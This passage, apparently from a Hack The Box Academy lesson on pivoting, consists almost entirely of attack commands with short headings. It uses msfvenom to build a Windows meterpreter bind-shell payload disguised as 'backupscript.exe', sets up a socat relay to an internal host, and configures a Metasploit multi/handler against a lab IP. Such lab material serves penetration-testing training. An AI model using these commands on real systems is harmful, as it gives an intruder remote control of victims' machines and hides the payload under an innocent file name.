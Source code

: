 
![](https://academy.hackthebox.com/storage/modules/158/55.png)

#### Creating the Windows Payload

```shell-session

msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

#### Starting Socat Bind Shell Listener

```shell-session
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

#### Configuring & Starting the Bind multi/handler

```shell-session
use exploit/multi/handler
```
```shell-session
set payload windows/x64/meterpreter/bind_tcp
```
```shell-session
set RHOST 10.129.202.64
```
```shell-session
set LPORT 8080
```
```shell-session
run
```
